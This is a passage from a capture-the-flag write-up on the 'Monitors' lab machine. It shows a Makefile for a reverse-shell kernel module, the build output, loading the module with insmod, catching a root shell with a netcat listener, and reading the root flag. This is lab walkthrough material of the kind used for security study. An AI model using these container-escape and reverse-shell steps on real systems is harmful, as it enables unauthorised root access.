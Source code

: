 

For the `Makefile`, I had issues with the stuff in `$()` running, but it
was pretty obvious what should be there, so I just changed it to include
hardcoded values:



    obj-m +=reverse-shell.o
    all:
            make -C /lib/modules/4.15.0-142-generic/build M=/root modules
    clean:
            make -C /lib/modules/4.15.0-142-generic/build M=/root clean



I put `/root` where it was `$(PWD)`, so I'll need to work out of that
directory in the container on Monitors. I'll be quick and cleanup once
I'm done.

I'll upload both those files to the container using `wget` and a Python
webserver.

#### Build and Run

With both those files in `/root`, I'll go into that directory and run
`make`:



    root@ec8b9784f4a1:~# make
    make -C /lib/modules/4.15.0-142-generic/build M=/root modules
    make[1]: Entering directory '/usr/src/linux-headers-4.15.0-142-generic'
      CC [M]  /root/reverse-shell.o
      Building modules, stage 2.
      MODPOST 1 modules
      CC      /root/reverse-shell.mod.o
      LD [M]  /root/reverse-shell.ko
    make[1]: Leaving directory '/usr/src/linux-headers-4.15.0-142-generic'



This builds the kernel module.

Now I'll start `nc` and install it with `insmod reverse-shell.ko`. On
doing so, it'll execute the reverse shell.



    oxdf@parrot$ nc -lvnp 443
    listening on [any] 443 ...
    connect to [10.10.14.7] from (UNKNOWN) [10.10.10.238] 42726
    bash: cannot set terminal process group (-1): Inappropriate ioctl for device
    bash: no job control in this shell
    root@monitors:/# id
    id
    uid=0(root) gid=0(root) groups=0(root)



And grab `root.txt`:



    root@monitors:/root# cat root.txt
    8e510bad************************







